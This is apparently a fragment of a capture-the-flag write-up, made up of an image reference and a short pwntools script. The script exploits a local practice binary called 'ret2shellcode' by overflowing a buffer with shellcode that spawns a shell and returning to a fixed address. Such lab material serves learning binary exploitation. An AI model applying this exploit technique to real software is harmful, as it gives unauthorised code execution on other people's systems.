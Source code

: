 ![image-20220123221740937](/assets/img/2022/image-20220123221740937.png)

```python
from pwn import *


r = process('./ret2shellcode')

r.recvuntil('!!!\n')
shell = asm(shellcraft.sh())
p = shell.ljust(0x6c+0x4, 'a') + p32(0x0804A080)

r.sendline(p)

r.interactive()
```
